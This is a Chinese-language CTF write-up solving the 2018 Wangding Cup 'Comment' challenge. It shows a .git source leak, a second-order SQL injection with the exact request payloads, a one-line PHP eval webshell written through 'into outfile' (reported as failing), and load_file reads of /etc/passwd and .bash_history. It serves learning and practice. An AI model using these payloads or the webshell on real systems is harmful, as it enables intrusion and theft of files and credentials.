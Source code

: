 title:  网鼎杯 2018-Comment  复现笔记
categories: [CTF]
tags: [sql,web,Linux,wp]

---

在家无聊在buu刷到2018网鼎杯的Comment，发现有好几个点正好是的我目前比较薄弱的故写文以记之.<!--more-->

## 0x01过程步骤

、进入题目，发现是一个帖子论坛网站。发现有疑似sql注入的注入点。但是测试后没有发现明显的利用点，就没有什么思绪。尝试访问几个常见文件或目录名，发现有git泄露。

![image-20210215220051579](image-20210215220051579.png)

用githack获得源文件。

![image-20210215222444037](image-20210215222444037.png)

经过审计发现有疑似，二次注入的可能。

![image-20210215222731749](image-20210215222731749.png)



由于addslashes会将一些符号转义但是在sql转义的符号在储存后与addslashes前并没有什么改变（换句话说`\'`在存入sql后，读取出来仍会是`'`）。所有我们可以写入数据，再通过这一特性将`'`逃逸出来，即二次注入。

因此我们可以构造paylaod：

```
a',(select database()),x=1/*

*/
```

但是这题有个坑的地方，审计源码+测试发现只有 content 字段我们才能利用。

所有完整payload：

```
第一包（write.php）
title=2&category=a',content=(select database()),/*&content=111
第二包（comment.php）
content=*/# 
```

这样导致：

```sql
insert into comment
            set category = '$category',
                content = '$content',
                bo_id = '$bo_id'"
```

当$category为`a',content=(select database()),/*`

$content为`*/#`时

sql语句就变成

```sql
insert into comment
            set category = '`a',content=(select database()),/*`',
                content = '*/',
                bo_id = '$bo_id'"
```

从而产生注入。

![image-20210215233502014](image-20210215233502014.png)

但通过注入数据库并未得到什么有效信息。所以猜测是否是写入shell或读取文件。

本想通过`select "<?php eval($_POST[1]);?>" into outfile "/var/www/html/a.php"`写入shell但未能成功。于是同过load_file函数来读取文件。

然后又一个问题来了读取什么文件?

我们尝试读取`flag.php`、`flag.txt`、`/flag`但是发现并未有flag标识。

思路一下就短路了，在查阅了资料后了解到`.bash_history`存放了当前用户历史执行命令。但这个文件在当前用户的目录下。因此我们先要读取`/etc/pass`获取当前用户信息。

![image-20210216000155737](image-20210216000155737.png)

![image-20210216000223139](image-20210216000223139.png)

然后这里有个小知识点一般下www用户是在web服务部署时专门设置来管理web的用户。

读取www用户下的`.bash_history`即访问路径`/home/www/.bash_history`。

![image-20210216000257110](image-20210216000257110.png)

看到linux执行过的命令：

1。跳转到tmp目录

2。用unzip解压 html.zip ，这时会产生一个html的文件夹

3。rm 删除了html.zip 

4。cp 将html 文件夹拷贝在 /var/www 目录下

5。跳转到 /var/html 目录下

6。删除了`.DS_Store`文件

7。启动 web服务

发现在`/var/www/html`下的`.DS_Store`被删除，但是`/tmp`下的`.DS_Store`未被删除。读取发现是2进制文件且带有很多`\00`字符因此用hex转16进制读取。

![image-20210215231823859](image-20210215231823859.png)

再用winhex读取

![image-20210216110435524](image-20210216110435524.png)

发现flag_8946e1ff1ee3e40f.php文件。

在/tmp/html下读取发现是假flag。

在/var/www/html/下读取到真正flag

![image-20210216000357240](image-20210216000357240.png)

## 0x02考点总结

### 1.文件泄露

在本题中考察的是`.git`文件泄露，我们可以利用githack脚本来恢复历史版本和下载git文件。

ps：git log -all 恢复历史文件。

### 2.sql二次注入

在本题中，服务器端只对用传来的数据进行了过滤。sql内部的数据为进行过滤。加之`\'`在存入sql后，读取出来仍会是`'`。这样`‘`就逃逸出来。

### 3.sql文件读取

我们可以同过user()来查看当前用户名，若有读权限那么可以通过load_file函数来读取文件。

同时lunix 下又很多敏感文件，比如：`.bash_history`存放了历史执行命令、/etc/passwd存放了用户信息、/etc/shadow存放用户密码且一般情况下不可读的。

### 4.linux 命令细节

在本题中考了写linux命令的细节，如cp会保留原文件，unzip 解压时默认在当前路径下生成解压出来的文件。

### 5.hexwin 分析hex数据

我们可以将数据转为16进制再通过hexwin写入文件还原从而获得一些内容特别的文件或数据。



## 0x00参考文献

https://www.jb51.net/article/108979.htm

https://www.freebuf.com/articles/web/167089.html

https://blog.csdn.net/qq_41628669/article/details/106133104